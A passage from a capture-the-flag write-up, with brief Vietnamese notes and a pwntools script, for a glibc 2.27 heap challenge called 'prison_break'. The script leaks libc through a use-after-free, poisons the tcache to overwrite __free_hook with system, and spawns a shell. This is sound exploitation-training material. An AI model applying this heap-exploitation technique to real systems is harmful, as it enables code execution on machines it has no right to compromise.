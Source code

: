 ![image](https://hackmd.io/_uploads/H1VEquJ_Je.png)

- overwrite fd của entry_tcache 

![image](https://hackmd.io/_uploads/Hk3Bc_kdJg.png)

- kết quả : 

![image](https://hackmd.io/_uploads/ByRvcd1dkx.png)

- ghi system vào ```free_hook``` thành công

![image](https://hackmd.io/_uploads/S1at5O1dkg.png)

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./prison_break_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

p = process()

def add(idx,size,data):
    p.sendlineafter(b'# ',b'1')
    p.sendlineafter(b'Journal index:\n',f'{idx}'.encode())
    p.sendlineafter(b'size:\n',f'{size}'.encode())
    p.sendafter(b'data:\n',data)

def delete(idx):
    p.sendlineafter(b'# ',b'2')
    p.sendlineafter(b'index:\n',f'{idx}'.encode())
def view(idx):
    p.sendlineafter(b'# ',b'3')
    p.sendlineafter(b'index:\n',f'{idx}'.encode())
def coppy(idx1,idx2):
    p.sendlineafter(b'# ',b'4')
    p.sendlineafter(b'Copy index:\n',f'{idx1}'.encode())
    p.sendlineafter(b'Paste index:\n',f'{idx2}'.encode())


for i in range(10): add(i,0x80,b'a')
for i in range(1,9): delete(i)
coppy(8,0)
view(0)

p.recvline()
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x3ebca0
log.info(f'libc: {hex(libc.address)}')
log.info(f'system: {hex(libc.sym.system)}')
log.info(f'free_hook: {hex(libc.sym.__free_hook)}')

input()
add(1,0x70,p64(libc.sym.__free_hook))
coppy(1,7)
add(2,0x80,b'/bin/sh\x00')
add(3,0x80,p64(libc.sym.system))
delete(2)

```